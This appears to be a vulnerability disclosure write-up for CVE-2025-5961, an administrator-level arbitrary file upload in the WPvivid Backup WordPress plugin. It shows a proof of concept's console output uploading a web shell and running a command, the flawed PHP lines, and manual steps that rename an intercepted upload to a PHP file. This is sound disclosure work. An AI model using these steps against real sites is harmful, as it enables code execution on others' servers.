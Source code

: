 +++
title = 'Migration, Backup, Staging – WPvivid Backup & Migration <= 0.9.116 - Authenticated (Administrator+) Arbitrary File Upload'
date = 2025-07-02T00:00:00+00:00
hideToc = true
+++
### CVE-2025-5961

The [wpvivid-backuprestore](https://wordpress.org/plugins/wpvivid-backuprestore/) plugin does not sanitize the file types of the `wpvivid_upload_import_files` action, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server. NOTE: Uploaded files are only accessible on WordPress instances running on the NGINX web server as the existing .htaccess within the target file upload folder prevents access on Apache servers.


## TL;DR Exploits
* A POC [CVE-2025-5961.py](https://github.com/d0n601/CVE-2025-5961/blob/master/CVE-2025-5961.py) is provided to demonstrate an administrator uploading a web shell named `hack.php`.

```console
 python3 ./CVE-2025-5961.py https://lab1.hacker admin password
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
ajax_nonce: e4d4bec9f0
Uploading web shell: hack.php
{"result":"success"}

Web Shell At: https://lab1.hacker/wp-content/wpvividbackups/ImportandExport/hack.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 78309sec preferred_lft 78309sec
    inet6 fd00::a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86105sec preferred_lft 14105sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:63:2d:a4:f2 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details  
The `wpvivid_upload_import_files` action calls the `upload_files` function on line [2210](https://plugins.trac.wordpress.org/browser/wpvivid-backuprestore/trunk/includes/class-wpvivid-export-import.php#L2210) of `/wp-content/plugins/wpvivid-backuprestore/includes/class-wpvivid-export-import.php` without enforcing any file type validation. 

Line [2235](https://plugins.trac.wordpress.org/browser/wpvivid-backuprestore/trunk/includes/class-wpvivid-export-import.php#L2235) `$file_name` is set as follows:

```php
$file_name=basename(sanitize_text_field($_POST['name']));
```

The `$file_name` variable is then used on line [2246](https://plugins.trac.wordpress.org/browser/wpvivid-backuprestore/trunk/includes/class-wpvivid-export-import.php#L2246)  to write the file to the file system.

```php
$file_handle = fopen($path.$file_name, 'wb');
```

## Manual Reproduction
0. Create a malicious file to pass the front-end validation since we're doing this manually. Enter this into the terminal:
```bash
echo "<?php phpinfo(); ?>" >>  wpvivid-0000000000000_1969-04-20-00-00_export_post.zip
```
1. Login to the admin panel and navigate to the `WPvivid Backup` tab.
2. Select `Export & Import` option from the side menu, and then select the `Import` tab.
3. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
4. Click the `Upload and Import` button, and select the `wpvivid-0000000000000_1969-04-20-00-00_export_post.zip` we created in step zero.
![test1](/posts/images/cve-2025-5961/1.png)
5. The first `POST` request will contain something like the following, forward this request along:
```
POST /wp-admin/admin-ajax.php HTTP/2
...
...
...
action=wpvivid_check_import_file&file_name=wpvivid-0000000000000_1969-04-20-00-00_export_post.zip&nonce=5c83c6b97b
```
6. Modify the next request containing the form data to set the file name to `poc.php`: 
![test2](/posts/images/cve-2025-5961/2.png)
7. Naviage to `https://THEWEBSITE.com/wp-content/wpvividbackups/ImportandExport/poc.php` to execute the proof of concept.
![test3](/posts/images/cve-2025-5961/3.png)
